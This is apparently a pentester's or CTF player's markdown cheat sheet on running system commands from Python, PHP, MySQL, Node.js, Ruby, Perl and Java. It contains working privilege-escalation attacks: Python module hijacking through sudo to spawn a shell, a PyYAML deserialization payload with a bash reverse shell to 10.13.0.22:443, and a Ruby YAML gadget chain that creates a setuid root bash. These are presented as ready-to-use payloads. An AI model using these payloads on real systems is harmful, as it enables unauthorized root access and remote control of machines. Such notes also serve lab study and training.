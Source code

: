 #### Python    
```    
import subprocess    
output = subprocess.check_output('whoami', shell=True)    
print(output.decode())    
```    
- execute system commands    
- can also use:    
```    
import os    
os.system('whoami')    
```    
    
hijacking imported module for priv esc    
- user has sudo privs for python script that imports "random" module    
- in same directory as script, run:    
```    
echo "import os" > random.py    
```    
- creates first line of new file. then:    
```    
echo 'os.system("/bin/bash")' >> random.py    
```    
- `cat random.py` should show:    
```    
import os    
os.system("/bin/bash")    
```    
- then make modifiable:    
```    
chmod +x random.py    
```    
- set current directory as pythonpath:    
```    
export PYTHONPATH=/home/alice:$PYTHONPATH    
```    
- then run the command that has sudo privs:    
```    
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py    
```    
- should create shell as rabbit user    
#### Python2 v Python3    
- absence of parentheses in print argument indicates script is written in python 2    
	- Python 2: print is a statement, so parentheses are optional unless needed for grouping.    
	- Python 3: print is a function, so parentheses are required:    
		- Ex: `print("Website is up")`    
- Using `input()` in Python2 can lead to security vulnerabilities because it evaluates user input as code.    
	- Python 2:    
		- `input()` function:    
			 - Parses the user input as a Python expression using `eval()`    
			- Equivalent to `eval(raw_input(prompt))`    
			- Dangerous if user input is not trusted, as it can execute arbitrary code.    
		- `raw_input()` function:    
			- Reads user input as a string without evaluation.    
	- Python 3:    
		- `input()` function:    
			- Reads user input as a string.    
			- Equivalent to `raw_input()` in Python 2.    
		- `raw_input()` function:    
			- Removed in Python 3.    
			- If you need to evaluate user input as code (which is generally discouraged), you must explicitly use `eval()`    
    
PyYAML deserialization attacks    
```    
import yaml    
    
data = """    
!!python/object/new:os.system    
- echo EXPLOIT!    
"""    
yaml_data = yaml.load(data)    
```    
- unsafe example: yaml.load is unsafe    
```    
!!python/object/new:type    
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]    
  listitems: "import os; os.system('bash -c \"bash -i >& /dev/tcp/10.13.0.22/443 0>&1\"')"    
```    
- rev shell payload (replace IP and port for `nc` listener)    
#### PHP    
```    
<?php    
echo shell_exec('whoami');    
```    
- can also execute code with `exec()` or `system()`    
    
```    
php -a    
```    
- bash to get an interactive php terminal    
#### MySQL    
```    
SELECT sys_exec('whoami');    
```    
- only works if lib_mysqludf_sys is installed    
	- otherwise, need to escape    
    
#### Node.js (Javascript)    
```    
const { exec } = require('child_process');    
    
exec('whoami', (error, stdout, stderr) => {    
    if (error) {    
        console.error(`Error: ${error.message}`);    
        return;    
    }    
    if (stderr) {    
        console.error(`Stderr: ${stderr}`);    
        return;    
    }    
    console.log(`Output: ${stdout}`);    
});    
```    
- `child_process` to execute    
    
#### Ruby    
```    
puts `whoami`    
```    
- backticks to execute or `system()`:    
```    
system('whoami')    
```    
    
Ruby YAML Deserialization privesc:    
```    
def list_from_file    
    YAML.load(File.read("dependencies.yml"))    
end    
```    
- unsafe YAML code, which was part of a script that user can run with sudo perms    
```    
---    
- !ruby/object:Gem::Installer    
    i: x    
- !ruby/object:Gem::SpecFetcher    
    i: y    
- !ruby/object:Gem::Requirement    
  requirements:    
    !ruby/object:Gem::Package::TarReader    
    io: &1 !ruby/object:Net::BufferedIO    
      io: &1 !ruby/object:Gem::Package::TarReader::Entry    
         read: 0    
         header: "abc"    
      debug_output: &1 !ruby/object:Net::WriteAdapter    
         socket: &1 !ruby/object:Gem::RequestSet    
             sets: !ruby/object:Net::WriteAdapter    
                 socket: !ruby/module 'Kernel'    
                 method_id: :system    
             git_set: id    
         method_id: :resolve    
```    
- POC to save dependencies.yml file in example above     
	- saving in any writable directory should work; does not have to be in the same directory as the ruby script    
- if upon running script with unsafe yaml again, should see `id` output (in addition to potential error messages), means POC worked. Replace with malicious payload:    
```    
---    
- !ruby/object:Gem::Installer    
    i: x    
- !ruby/object:Gem::SpecFetcher    
    i: y    
- !ruby/object:Gem::Requirement    
  requirements:    
    !ruby/object:Gem::Package::TarReader    
    io: &1 !ruby/object:Net::BufferedIO    
      io: &1 !ruby/object:Gem::Package::TarReader::Entry    
         read: 0    
         header: "abc"    
      debug_output: &1 !ruby/object:Net::WriteAdapter    
         socket: &1 !ruby/object:Gem::RequestSet    
             sets: !ruby/object:Net::WriteAdapter    
                 socket: !ruby/module 'Kernel'    
                 method_id: :system    
             git_set: cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf    
         method_id: :resolve    
```    
- copies bash to `/tmp/0xdf` then modifies setid and setgid so anyone can run it and it runs as root    
```    
/tmp/0xdf -p    
```    
- root shell    
#### Perl    
```    
system('whoami');    
```    
    
#### Java    
```    
import java.io.*;    
    
public class Main {    
    public static void main(String[] args) throws Exception {    
        Process process = Runtime.getRuntime().exec("whoami");    
        BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));    
        String line;    
        while ((line = reader.readLine()) != null) {    
            System.out.println(line);    
        }    
    }    
}    
```    
- `Runtime.getRuntime().exec()` to execute system commands    